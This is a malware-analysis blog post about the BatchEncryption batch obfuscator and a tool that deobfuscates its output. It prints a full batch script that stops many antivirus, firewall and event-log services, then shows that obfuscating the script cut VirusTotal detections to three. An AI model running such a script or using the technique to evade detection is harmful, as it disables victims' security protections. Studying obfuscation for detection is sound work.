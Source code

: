+++
title = "Exploring the BatchEncryption tool (and its deobfuscator) by gwsbhqt@163.com "
date = 2024-03-11T20:03:02+02:00
draft = false
tags = ["BatchEncryption","UnJlaive","obfuscation"]
categories = ["malware"]
ShowToc = false
author = ["connar"]
+++

## What is the BatchEncryption tool
The BatchEncryption tool is a tool used for obfuscating batch files. It is rather one of the most uncommon ones since it combines known and custom environment variable encodings to obfuscate the script. The way it works is it sets a randomly generated dictionary into a custom envar which is just a single quote ("'"). It then encodes it with existing environment variable substrings and then takes the remainder of the command using substrings of the custom environment variable declared previously.

The use of this tool was seen back in 2017 in the *Jawlan and Suriya.doc* (SHA-256: 761483906b45fad51f3c7ab66b1534dee137e93a52816aa270bc97249acb56d0) and has almost unknown at the time, with only 3 google search results. Now it has started to pop up more (mainly in .cn forums).

An example of a batch file obfuscated with BatchEncryption can be seen below:  
![example](/posts/batchEncryption_/example.png)


The nice thing about this tool is that still in this day, it manages to get low AV detection in VT. Let's take a .bat sample that disables multiple different AV engines:
```bat
set ii=ne
set ywe=st
set ury=t
set iej=op
set jt53=Syma
set o6t=nor
set lyd2=fee
set h3d=ton
set gf45=ntec
set own5=McA
net stop "Security Center" /y
net stop "Automatic Updates" /y
net stop "Symantec Core LC" /y
net stop "SAVScan" /y
net stop "norton AntiVirus Firewall Monitor Service" /y
net stop "norton AntiVirus Auto-Protect Service" /y
net stop "norton AntiVirus Auto Protect Service" /y
net stop "McAfee Spamkiller Server" /y
net stop "McAfee Personal Firewall Service" /y
net stop "McAfee SecurityCenter Update Manager" /y
net stop "Symantec SPBBCSvc" /y
cls
net stop "Ahnlab Task Scheduler" /y
net stop navapsvc /y
net stop "Sygate Personal Firewall Pro" /y
net stop vrmonsvc /y
net stop MonSvcNT /y
net stop SAVScan /y
net stop NProtectService /y
net stop ccSetMGR /y
net stop ccEvtMGR /y
net stop srservice /y
net stop "Symantec Network Drivers Service" /y
net stop "norton Unerase Protection" /y
net stop MskService /y
net stop MpfService /y
net stop mcupdmgr.exe /y
net stop "McAfeeAntiSpyware" /y
net stop helpsvc /y
net stop ERSvc /y
net stop "*norton*" /y
net stop "*Symantec*" /y
net stop "*McAfee*" /y
cls
net stop ccPwdSvc /y
net stop "Symantec Core LC" /y
net stop navapsvc /y
net stop "Serv-U" /y
net stop "norton AntiVirus Auto Protect Service" /y
net stop "norton AntiVirus Client" /y
net stop "Symantec AntiVirus Client" /y
net stop "norton AntiVirus Server" /y
net stop "NAV Alert" /y
net stop "Nav Auto-Protect" /y
cls
net stop "McShield" /y
net stop "DefWatch" /y
net stop eventlog /y
net stop InoRPC /y
net stop InoRT /y
net stop InoTask /y
cls
net stop "norton AntiVirus Auto Protect Service" /y
net stop "norton AntiVirus Client" /y
net stop "norton AntiVirus Corporate Edition" /y
net stop "ViRobot Professional Monitoring" /y
net stop "PC-cillin Personal Firewall" /y
net stop "Trend Micro Proxy Service" /y
net stop "Trend NT Realtime Service" /y
net stop "McAfee.com McShield" /y
net stop "McAfee.com VirusScan Online Realtime Engine" /y
net stop "SyGateService" /y
net stop "Sygate Personal Firewall Pro" /y
cls
net stop "Sophos Anti-Virus" /y
net stop "Sophos Anti-Virus Network" /y
net stop "eTrust Antivirus Job Server" /y
net stop "eTrust Antivirus Realtime Server" /y
net stop "Sygate Personal Firewall Pro" /y
net stop "eTrust Antivirus RPC Server" /y
cls
net stop netsvcs
net stop spoolnt
```

The VT result of this is the following:  
![example](/posts/batchEncryption_/VT_plain.png)
(I got to admin I was expecting more).

Now let's use the BatchEncryption tool to obfuscate our sample and load it again:
![example](/posts/batchEncryption_/obfuscated_sample.png)

In just a text editor we can't really see what's going on because of the encoding used, but if we load it for example in cyberchef, it gets converted to utf8 and thus we can see readable chars. Anyways, we can see that indeed a lot of stuff is going on. Custom, existing envars, caret symbol for extra obfuscation etc. We also notice a header on top, which is the author of the program (gwsbhqt@163.com). Let's load it to VT and watch what happens:  
![example](/posts/batchEncryption_/VT_obfuscated.png)

We successfully reduced our results to only 3! For any of you wondering what would happen if we had removed the header of the author and load it again, it would give the same results. 

Let's now see how we can deobfuscate samples obfuscated with this technique.

## Batch-Encryption-DeCoder
Luckily for us, there is already a tool for this purpose, which can be found here:
- https://github.com/cnHopeStudio/Batch-Encryption-DeCoder

We need to build this tool to get the final executable, which when run, gives us the original batch file: 

![example](/posts/batchEncryption_/using_the_deobfuscator.png)


**References**
<blockquote>
    <ul>
        <li> [1] <a href="https://i.blackhat.com/briefings/asia/2018/asia-18-bohannon-invoke_dosfuscation_techniques_for_fin_style_dos_level_cmd_obfuscation-wp.pdf">blackhat: <i>Exploring the Depths
of Cmd.exe Obfuscation and Detection Techniques</i></a></li>
        <li> [2] <a href="https://blog.csdn.net/Hunter98234/article/details/108672926">Amit: <i>Recipient batch processing documents confused by BatchEncryption (version 201610)</i></a></li>
        <li> [3] <a href="http://www.bathome.net/thread-42106-1-2.html">gwsbhqt: <i>[Original Tool][201610]BatchEncryption-BatchEncrying Encryption</i></a></li>
    </ul>
</blockquote> 